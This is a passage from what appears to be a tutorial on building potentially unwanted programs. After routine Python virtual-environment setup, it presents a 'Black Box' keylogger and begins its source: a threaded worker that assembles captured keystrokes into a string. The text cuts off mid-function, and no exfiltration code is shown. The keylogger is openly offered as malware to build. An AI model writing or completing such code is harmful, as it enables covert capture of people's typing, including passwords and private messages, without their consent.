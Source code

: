 
**To activate the virtual environment, you need to run the following command:**

```bash
source ./venv/bin/activate
```

This will change your prompt to show that you are in the virtual environment, and modify the **PATH** environment variable to include the bin directory of the virtual environment. This way, you can use the Python interpreter and any packages installed in the virtual environment without specifying the full path. To deactivate the virtual environment, you can simply type **deactivate**.

Pip is typically out of date in a new venv. To update pip use:

```bash
pip install --upgrade pip
```

Now that you have set up your virtual environment, you are ready to start developing your own PUPs.

---


# **Key Loggers: The Black Box - Capturing Keyboard Input with Pynput**

The black box keylogger works on all platforms thanks the excellent library by Moses Palmer: https://github.com/moses-palmer/pynput

First, create & activate a new virtual environment and install the necessary library for this PUP with:

```bash
pip install pynput
```

The Black Box uses **queue**, **threading**, and **pynput** modules. The queue module provides a way to store and retrieve items in a first-in, first-out (FIFO) order, and also manages thread locking for you. The threading module provides a way to run a function in a separate thread of execution.

---

## **Black Box:**

```python
# by 0x00wolf:
import queue
import threading
from pynput import keyboard


def worker():
    key_string = ''
    while True:
        key = q.get()
        try:
            key_string += str(key.char)
        except AttributeError:
            if key == key.space:
                key_string += ' '
            elif key == key.backspace:
                key_string = key_string[:-1]
            elif key == key.shift:
                pass
            elif key == key.enter:
                key_string += '\\n'
            elif key == key.alt:
                pass
            elif key == key.tab:
```